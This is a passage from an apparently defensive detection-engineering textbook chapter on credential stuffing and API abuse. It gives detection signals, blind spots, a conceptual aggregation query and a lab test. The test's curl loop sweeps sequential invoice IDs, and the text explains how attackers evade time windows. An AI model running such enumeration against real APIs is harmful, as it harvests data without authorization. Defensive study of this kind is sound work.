against the login endpoints of others, betting on password reuse — distinct from a brute-force
password guess against one account, because the attacker already has (what they believe are)
valid credentials and is testing where else they work. **MITRE:** T1110.004 (Brute Force:
Credential Stuffing).

**[DETECTION ENGINEER]** This part owns the web-request-layer signal — request volume and shape
against the login endpoint itself — and hands off to Part 12 the moment the question becomes "did
any of these attempts succeed, and what does that do to the account." The distinguishing shape at
the request layer: many distinct username values, each tried a small number of times (often only
once), from a source or distributed source pool cycling through proxies, hitting the login
endpoint at a steady automated rate rather than the bursty, single-account pattern of a targeted
password guess.

| Signal | Distinguishes from | Primary weakness |
|---|---|---|
| High distinct-username count from one source in a short window | A single legitimate user who mistypes their own username repeatedly | A large NAT'd office or campus network can produce a legitimately high distinct-username count against a shared login page |
| Low attempts-per-username, high total volume | Targeted brute force (many attempts, one username) | Distributed stuffing across a large proxy/botnet pool can push per-source volume low enough to blend into normal traffic |
| Steady, low-jitter request timing | Human login behavior, which is bursty and irregular | Some stuffing tooling deliberately randomizes timing specifically to defeat this signal |

> **Blind Spot**
> Every signal in the table above is scored within one Correlation Window (typically minutes to a
> few hours). A stuffing run deliberately spread thin enough — one attempt per username, a handful
> of usernames per hour, sustained over days or weeks — never produces a spike inside any single
> window, even with no distributed source pool involved. Catching that pattern needs a
> longer-baseline, cross-window trend (distinct-username count against this login endpoint per
> day, compared to a rolling 30-day baseline) rather than a single-window threshold rule, and nothing
> in this section's detection is built to do that yet.

> **False Positive Trap**
> Password-manager browser extensions and some SSO/legacy-auth migration flows retry a login
> endpoint automatically on a stored-credential mismatch, and a corporate NAT gateway can put
> genuinely large numbers of distinct real users behind one source IP. Scope this detection to
> distinct-username-count *and* a failure-rate threshold together, not distinct-username-count
> alone, and maintain an allowlist for known large-NAT egress ranges — raising the count threshold
> alone just pushes a patient attacker under the new bar without fixing the false-positive source.

## 10. API abuse

**[CONCEPT]** An API endpoint is a web request with the human interface stripped away, which
makes automated abuse both easier for the attacker (no page rendering to work around) and, done
right, easier to detect (the request shape is far more regular than human browsing, so deviation
from that regularity is a cleaner signal). Common abuse patterns: scraping (systematic
enumeration of an object-ID space to harvest data one legitimate-looking request at a time),
excessive per-key call volume against a rate-limited endpoint, and parameter tampering against an
API that trusts client-supplied authorization scope. This part does not force a single MITRE
mapping onto every pattern in this category — scraping and object-ID enumeration map most
naturally to T1190 (Exploit Public-Facing Application) when they expose a genuine authorization
flaw, but a program simply harvesting data it was never meant to see through a working, "correctly
functioning" API is as much a business-logic and access-control failure as a technique with a
clean ATT&CK identity, and this part says so rather than inventing a tighter mapping than the
framework actually offers.

**[DETECTION ENGINEER]** **DET-16-08 — Sequential object-ID enumeration against a per-object API
endpoint.** The signal is a request sequence against a resource path with an incrementing or
otherwise systematically-varying ID (`/api/v1/invoices/1001`, `/1002`, `/1003`, ...) from one
API key or source, at a rate and coverage no legitimate client-side workflow produces — a real
user's client fetches a handful of specific IDs it already knows about, not a monotonic sweep.

CONCEPTUAL SAMPLE — illustrative aggregation query against an API gateway log; invented field
names, not validated against a specific gateway's schema. The filter clause on the first line is
written in Elastic's KQL (Kibana search bar) style, but plain KQL has no aggregation stage — the
Kibana search bar cannot compute a distinct-ID count or a ratio threshold on its own. The piped
`stats`/`where` stage below is pseudo-syntax standing in for whatever aggregation layer actually
runs it: Elastic's ES|QL, a scheduled transform, or the SIEM's own correlation-rule aggregation —
do not paste this literally into a Kibana query bar and expect it to run.

```kql
event.dataset: "api_gateway.access" and url.path: "/api/v1/invoices/*"
| stats distinct_count(url.path) as unique_ids, count() as total_requests by client.api_key
| where unique_ids > 200 and total_requests / unique_ids < 1.5
```

The `total_requests / unique_ids` ratio close to one is the important part of this rule, not the
raw count: it's what separates a client legitimately re-fetching the same few records repeatedly
(a high count, low unique-ID ratio) from a systematic sweep across a wide ID range (a high count,
high unique-ID ratio, each ID touched about once). A rule that only thresholds on raw request
count misses this distinction entirely and either floods on a legitimate polling client or misses
a low-and-slow enumeration spread across a long window.

> **Blind Spot**
> This rule groups by `client.api_key`, so it depends on every request carrying one — an endpoint
> that authenticates by session cookie instead of an API key, or an unauthenticated endpoint an
> IDOR flaw exposes directly, produces no `client.api_key` value at all and the query silently
> excludes that traffic rather than erroring. The same enumeration run by a botnet rotating source
> IPs with no stable key, or split across many low-volume keys, also stays under the per-key
> threshold. Where no stable API key exists, fall back to grouping on session ID or source IP,
> and treat this rule as covering the key-authenticated case only, not API abuse in general.

> **Detection Test**
> **Setup:** A lab API with a per-object endpoint exposing sequential numeric IDs
> (`/api/v1/invoices/{id}`) behind a test API key, logged to the gateway's access log.
> **Action:** `for i in $(seq 1001 1250); do curl -s -H "X-Api-Key: test-key-01" "http://lab-api/api/v1/invoices/$i" > /dev/null; done`
> **Expected result:** 250 distinct `url.path` values against `client.api_key` = `test-key-01`
> within a short window, `total_requests / unique_ids` at or near 1.0 — the ratio that
> distinguishes this from a client re-polling a handful of known IDs.

> **SOC Management View**
> API rate limiting and API abuse *detection* answer different questions and are frequently
> confused at the budget level: a rate limit protects availability and caps damage regardless of
> intent, while a detection like DET-16-08 answers whether the traffic pattern itself indicates
> unauthorized data harvesting. A program that only has a rate limiter and no logging/detection
> layer can be rate-limiting a real data breach in slow motion for months without ever generating
> an alert that names it as one — rate limiting is not a substitute line item for detection
> engineering on this surface, even though both show up under "API security" on a vendor slide.






**Figure 16.5 (FIG-16-05) — Where this part's detections sit in the request-to-compromise chain.**
*CONCEPTUAL.* Illustrates the handoff points to Part 11 (host/process telemetry) and Part 14 (network
telemetry) that this part deliberately stops short of, and previews the full synthesis Part 47
(Web Compromise Model) builds from all three. Not a capture of any specific incident's timeline.

## 11. Where this goes next

**[CONCEPT]** This part covers the request-layer detection logic for the web attack surface;
Part 11 picks up the moment a request-layer compromise (most concretely, a web shell) reaches the
host, and Part 14 picks up the moment it reaches the network as an outbound connection. Part 12
owns what happens once a credential-stuffing attempt actually succeeds against an identity
provider's sign-in log. Part 18 owns the OAuth/app-consent-driven version of API abuse against a
SaaS platform rather than a first-party API. Part 47 (Web Compromise Model) is the synthesis
chapter that walks the full request → app → shell → download → network chain end to end, built
directly from this part and Part 11 rather than re-deriving either. The naive "unsigned process is
malware" rule dissected in §6.1 is one of the seeded naive-rule teasers this book pays off in full
in Part 40's capstone; nothing past this point should need to re-litigate why signature status on
its own is the wrong layer to detect a web shell's post-exploitation activity.
